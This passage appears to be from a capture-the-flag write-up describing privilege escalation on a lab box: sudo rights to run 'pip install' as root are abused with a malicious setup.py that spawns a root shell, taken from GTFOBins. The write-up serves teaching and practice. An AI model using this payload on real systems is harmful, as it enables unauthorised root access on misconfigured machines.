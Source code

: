 ### Sudo Pip --> Root

When checking `sudo` privileges, we see that we can run `pip install` as `root`:

```
homer@canape:~$ sudo -l
[sudo] password for homer: 
Matching Defaults entries for homer on canape:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User homer may run the following commands on canape:
    (root) /usr/bin/pip install *
```

Using this, we can spawn a `root` shell using the PoC on GTFOBins:

```bash
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo pip install $TF
```

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Rooted!
